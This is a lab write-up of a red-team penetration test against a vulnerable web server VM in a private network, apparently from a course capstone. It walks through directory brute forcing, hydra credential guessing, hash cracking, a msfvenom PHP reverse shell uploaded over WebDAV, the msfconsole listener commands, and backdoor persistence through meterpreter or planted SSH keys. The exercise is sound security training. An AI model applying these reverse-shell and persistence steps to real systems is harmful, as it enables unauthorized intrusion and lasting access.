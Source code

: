 ## Penetration Test Engagement in a Virtualized Environment

There are several steps involved with penetrating a network: Planning and Reconnaissance, Scanning, Exploitation, Post Exploitation, and Reporting. Once the network has been exploited there are a number of ways an attacker can abuse a system including stealing sensitive data, modifying data on the network, compromising the availability of data for a ransom and leaving a backdoor for perpetual access.

![RedTeam_NetworkDiagram](https://github.com/keeslonkf/Red-Team-vs.-Blue-Team/blob/39d081ca13b751d97885985216948dfe3114aa54/RedTeam_Images/network_topology.JPG)

This document contains the following details:
- Description of the Topology
- Vulnerability Assessment
- Exploitation
- Post-Exploitation

### Description of Topology

In this lab, there were several machines on the network to be tested. A Windows VM which contained Hyper-V Manager served as the gateway to other nested VMs on the same network. A machine called Capstone served as a vulnerable Web server. Another VM on the network was an ELK server which is used to capture log data from the Capstone Machine. This data is then presented using the Kibana platform. This platform is useful for parsing logs, creating visual representations of data, and creating alerts. Lastly, for this engagement the actual attacking machine - Kali - was on the network itself as well. The Capstone VM is the proposed target for this engagement. The goal of infiltrating the Capstone machine was to set up a reverse shell in which the Kali attack machine could remotely access the system. The sole target that was infiltrated was the Capstone VM.

The configuration details of each machine may be found below.

| Hostname | Function       | IP Address               | Operating System |
|----------|----------------|--------------------------|------------------|
| Gateway  | Gateway        | 192.168.1.1              | Windows 10 Pro   |
| Kali     | Attack Machine | 192.168.1.90             | Linux            |
| ELK      | ELK Log Server | 192.168.1.100            | Linux            |
| CAPSTONE | Target Machine | 192.168.1.105            | Linux            |

### Vulnerability Assessment

The assessment uncovered the following critical vulnerabiliies in the target:

- Public Facing Sensitive Data: Files alluding to the existence of a secret folder within the web server
  - Impact: Gives attackers incentive to probe for more sensitive data
- Brute Force Attack and Hash cracking: Attackers can use programs to guess login credentials or decrypt password hashes to gain credentials
  - Impact: Discovered credentials can be used to potentially access sensitive data on the web server
- Web Misconfiguration: Security Controls are not in place to restrict who can upload files to the web server
  - Impact: Attackers can upload and plant malware to later be used on the server
- Local File Inclusion (LFI): Attackers can execute the planted malware file to potentially gain a reverse shell on the web server
  - Impact: Discovered credentials can be used to potentially access sensitive data on the web server       

### Recon

- Vulnerabilities were identified in the target by first site mapping the web server using a simple Firefox Browser and a Kali Linux tool called dirbuster. 
- Dirbuster is a java application designed to brute force directories on web applications and web servers. Performing this recon revealed an important URL on the server:"/webdav".

![dirbScan](https://github.com/keeslonkf/Red-Team-vs.-Blue-Team/blob/39d081ca13b751d97885985216948dfe3114aa54/RedTeam_Images/dirbScan.JPG)

- Further "site-walking" was conducted by browsing directories in the web browser manually. 
- Through a public-facing sensitive data vulnerability, it was discovered that a secret directory hidden within the web server existed and was only accessible by employees.

![secretFolder](https://github.com/keeslonkf/Red-Team-vs.-Blue-Team/blob/39d081ca13b751d97885985216948dfe3114aa54/RedTeam_Images/secretFolder.JPG)

## Exploitation

- After gathering useful information through recon, the findings prompted the idea of brute forcing employee credentials using the employees listed in the site’s “Meet Our Team” page. 
- The intention was to find credentials to access this secret folder. 
- This brute force attack was successfully executed using the Kali Linux tool “hydra” to obtain the credentials of employee Ashton.

![hydra](https://github.com/keeslonkf/Red-Team-vs.-Blue-Team/blob/39d081ca13b751d97885985216948dfe3114aa54/RedTeam_Images/hydra.JPG)

- The discovered credentials were then used to log into the secret folder directory

![secretFolderLogin](https://github.com/keeslonkf/Red-Team-vs.-Blue-Team/blob/39d081ca13b751d97885985216948dfe3114aa54/RedTeam_Images/SecretFolderLogin.JPG) 

- The contents of the secret folder revealed a file called "connect_to_corp_server"

![secretFolder_Dir](https://github.com/keeslonkf/Red-Team-vs.-Blue-Team/blob/39d081ca13b751d97885985216948dfe3114aa54/RedTeam_Images/SecretFolderDirContents.JPG) . 

- The next exploit was discovered in a file within the secret folder called "connect_to_corp_server". 
- This file contained the hash of the CEO’s (Ryan) password and instructions on how to access another hidden directory within the server called “webdav”. 
- The contents are displayed below: 
  - Note the network file share address is incorrect here. It should include the IP of our victim machine i.e. dav://192.168.1.105/webdav/  

![webDavInstructions](https://github.com/keeslonkf/Red-Team-vs.-Blue-Team/blob/39d081ca13b751d97885985216948dfe3114aa54/RedTeam_Images/webDavInstructions.JPG) 

- Ryan's hashed password was copied and input into an online tool called Crack Station. 
- The site uses rainbow tables to compare the input hash to precomputed hashes to "crack" the password. 
- This hash was successfully cracked and privileges were escalated further to the CEO's account. 

![crackstation](![CrackStationPassword](https://user-images.githubusercontent.com/94092268/185767062-adf60e79-6909-4b18-ab6b-170e1abd8066.JPG) 

- A login screen was prompted for credentials

![webDavLogin](https://github.com/keeslonkf/Red-Team-vs.-Blue-Team/blob/39d081ca13b751d97885985216948dfe3114aa54/RedTeam_Images/webDavLogin.JPG) 

- Next, a payload was constructed using msfvenom to create the reverse shell php script to be exploited on the target. 

![msfvenomPayload](https://github.com/keeslonkf/Red-Team-vs.-Blue-Team/blob/9476b6aff2c7a0769672dc18c197a3981b2956c3/RedTeam_Images/msfvenomPayload.JPG) 

- With the high-level access acquired from Ryan's credentials, a php script was uploaded to the web server to initiate the first step in establishing a reverse shell between the Capstone Server and the Kali attacking machine. 
- This is exploitation of the web misconfiguration

> - Click Folder at top of desktop, Click in search bar and type in network file share folder
> - dav://192.168.1.105/webdav/ , then enter ryan's credentials
> - Drag and drop reverse_shell.php file into network file share 

- The ability to upload a .php script is a web misconfiguration vulnerability that was exploited. 
- A general coding best practice is to never allow uploading to a web server unless that is apart of the web application's functionality to the client. 
- If uploading is necessary, uploaded data should undergo scrutiny before being allowed on the web server to ensure the data does not contain malware. 

![uploadShellScript](https://github.com/keeslonkf/Red-Team-vs.-Blue-Team/blob/9476b6aff2c7a0769672dc18c197a3981b2956c3/RedTeam_Images/UploadShellScript.jpg)

- Finally, a Local File Inclusion (LFI) vulnerability in the web server ensured the success of the reverse shell exploit. 
- Local File Inclusion vulnerabilities work by allowing an uploaded file or script to be executed on the server. 
- In this case, once the code is executed, it sends a meterpreter shell directly back to the attacking machine. 
- This was accomplished using Metasploit to turn on a listening port waiting for us to execute the newly uploaded php script on the target machine
> - msfconsole
> - use exploit/multi/handler
> - set payload php/meterpreter/reverse_tcp
> - set lhost 192.168.1.90
> - set lport 80
> - show options
> - exploit

- This code forces the target machine to send us a meterpreter shell connection. 

![msfsetup](https://github.com/keeslonkf/Red-Team-vs.-Blue-Team/blob/9476b6aff2c7a0769672dc18c197a3981b2956c3/RedTeam_Images/msfsetup.JPG)

- Now we execute the script on the victim machine by typing the file path in the folder explorer search bar
> - dav://192.168.1.105/webdav/reverse_shell.php 

![meterpreterShell](https://github.com/keeslonkf/Red-Team-vs.-Blue-Team/blob/39d081ca13b751d97885985216948dfe3114aa54/RedTeam_Images/meterpreterShell.JPG) 

- Once inside, a more stable shell was first established using the command “shell” in the Meterpreter session. 
- Basic linux commands like “cd” and “find” were utilized to search for files containing the word “flag” in the title.

![flagComplete](https://github.com/keeslonkf/Red-Team-vs.-Blue-Team/blob/39d081ca13b751d97885985216948dfe3114aa54/RedTeam_Images/flagComplete.JPG)

### Post Exploitation

There are several ways to reconnect to the target. First, if no backdoor has been established, an attacker would have to exploit the target again using the same steps as before - this is why it is imperative to document every step of the engagement in the event you must recreate a scenario. Creating backdoors is another way to reconnect to a target after being disconnected. This can be accomplished through many methods and it differs based on the OS of the target machine. 

In the case of the Meterpreter session, meterpreter has a script called “persistence.rb” to maintain an open backdoor even if the target system is rebooted. In the meterpreter command line prompt run the command “ run persistence -h”. It is important to note that this method requires no authentication so anyone with access to the port used for the exploit can access the machine. This is not ideal for the purposes of penetration testing unless it is done on a network that is not public-facing. 

Another technique to create a backdoor once inside of the Capstone VM is to use SSH keys; note this service was shown to be running on Port 22 in the nmap service scan so it can be used, however this would not work where this service is not enabled. Simply add your public SSH key into the “~/.ssh/authorized_keys” file to allow for remotely connecting via SSH. 
